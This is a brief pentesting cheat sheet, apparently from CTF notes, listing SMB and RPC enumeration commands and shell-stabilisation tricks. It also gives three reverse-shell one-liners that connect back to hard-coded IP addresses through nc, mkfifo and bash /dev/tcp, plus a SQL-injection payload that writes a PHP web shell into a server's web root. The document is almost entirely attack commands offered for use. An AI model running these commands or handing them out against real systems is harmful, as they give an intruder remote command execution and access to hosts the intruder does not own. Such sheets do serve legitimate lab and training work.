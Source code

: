 ### SMB Port 445,139 & RPC Port 111,135

```sh
enum4linux -a $IP
nmap -p 139,445 192.168.1.1/24 --script smb-enum-shares.nse smb-os-discovery.nse
nmap --script rpcinfo.nse $IP -p 111
rpcclient -U "" -N
smbclient -L $IP
smbclient \\\\hack.thm\\websvr
showmount -e $IP
smbmap -H hack.thm -R 
smbmap -H $IP -d <domain> -u <user> -p <password>
mount -t cifs //$IP/<share> <local dir> -o username="guest", password=""
```

## SHELL

### Stable Shell

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
OR
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
CTRL+Z
stty raw -echo; fg
[2xENTER]
```

```sh
alias ll='ls -lah --color'
```

### Reverse shell

```sh
rm /tmp/f ; mkfifo /tmp/f ; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.129.247 1234 >/tmp/f
```

```sh
/bin/bash -c '/bin/bash -i >& /dev/tcp/10.9.129.247/1234 0>&1'
```

```sh
nc -nv 10.11.55.28 1234 -e /bin/bash
```

### Shell from SQL injection

- Windows

```sql
?id=1 union all select 1,2,3,4,""<?php echo shell_exec($_GET['cmd']);?>"",6,7,8,9 into OUTFILE 'c:/xampp/htdocs/cmd.php'
```
